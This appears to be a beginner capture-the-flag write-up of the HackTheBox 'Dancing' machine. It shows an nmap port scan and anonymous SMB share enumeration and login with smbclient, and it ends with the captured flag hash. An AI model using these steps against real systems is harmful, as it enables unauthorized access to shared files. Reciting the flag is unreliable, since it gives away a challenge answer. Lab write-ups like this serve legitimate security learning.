

# [HackTheBox] [Dancing]: [Enumeration], [Foothold]

**Target:** [Dancing] | **OS:** Windows | **Difficulty:** Super Easy  
**Attack Vector:** [Enumeration -> Foothold]

---

## 1. Enumeration

```bash
sudo nmap -p- -sS ---min-rate 5000 -T3 10.129.120.102
```

PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

In this scan we can see the port 445 and 135 which are SMB with this information we can try the following using smbclinet



Here is where i got the information from so lets continue with

## 2. Foothold

```bash
smbclient -L //10.129.120.102 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk

```

Using the -N flag to say its a Null sesion and the -L to list we can see a hand made resource which is Workshares, with this information we can try logging in.


```bash
smbclient //10.129.120.102/WorkShares -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1750297 blocks available
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1750297 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\> quit
```

## 3. Flag

```bash
cat flag.txt
5f61c10dffbc77a704d76016a22f1664
```

Pwned.
